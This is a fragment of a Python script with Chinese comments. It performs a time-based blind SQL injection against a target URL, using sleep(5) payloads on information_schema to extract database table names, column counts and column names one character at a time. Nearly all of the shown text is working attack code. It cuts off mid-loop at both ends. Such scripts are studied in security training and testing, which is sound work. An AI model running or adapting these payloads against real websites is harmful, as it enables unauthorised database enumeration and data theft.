 ```python
		# b表示当前表名猜解的位置
		for b in range(1, tableLen+1):
			payload = "' and if(ascii(substr((select table_name from information_schema.tables where table_schema='{0}' limit {1},1),{2},1))={3},sleep(5),0)%23"
			targetUrl = url + payload
			# c表示33~127位ASCII中可显示字符
			for c in range(33, 128):
				timeStart = time.time()
				res = conn.get(targetUrl.format(dbname, a, b, c))
				timeEnd = time.time()
				if timeEnd - timeStart >= 5:
					table += chr(c)
					print(table)
					break
		#把获取到的名加入到DBTables
		DBTables.append(table)
		#清空table，用来继续获取下一个表名
		table = ""


# 获取数据库表的字段函数
def GetDBColumns(url, dbname, dbtable):
	global DBColumns
	# 存放字段数量的变量
	DBColumnCount = 0
	print("[-]开始获取{0}数据表的字段数:".format(dbtable))
	for DBColumnCount in range(99):
		payload = "' and if((select count(column_name) from information_schema.columns where table_schema='{0}' and table_name='{1}')={2},sleep(5),0) %23"
		targetUrl = url + payload
		timeStart = time.time()
		res = conn.get(targetUrl.format(dbname, dbtable, DBColumnCount))
		timeEnd = time.time()
		if timeEnd - timeStart >= 5:
			print("[-]{0}数据表的字段数为:{1}".format(dbtable, DBColumnCount))
			break
	# 开始获取字段的名称
	# 保存字段名的临时变量
	column = ""
	# a表示当前获取字段的索引
	for a in range(0, DBColumnCount):
		print("[-]正在获取第{0}个字段名".format(a+1))
		# 先获取字段的长度
		for columnLen in range(99):
			payload = "' and if((select length(column_name) from information_schema.columns where table_schema='{0}' and table_name='{1}' limit {2},1)={3},sleep(5),0) %23"
			targetUrl = url + payload
			timeStart = time.time()
			res = conn.get(targetUrl.format(dbname, dbtable, a, columnLen))
			timeEnd = time.time()
			if timeEnd - timeStart >= 5:
				break
		# b表示当前字段名猜解的位置
		for b in range(1, columnLen+1):
			payload = "' and if(ascii(substr((select column_name from information_schema.columns where table_schema='{0}' and table_name='{1}' limit {2},1),{3},1))={4},sleep(5),0) %23"
			targetUrl = url + payload
			# c表示33~127位ASCII中可显示字符
			for c in range(33, 128):
				timeStart = time.time()
				res = conn.get(targetUrl.format(dbname, dbtable, a, b, c))
				timeEnd = time.time()
				if timeEnd - timeStart >= 5:
```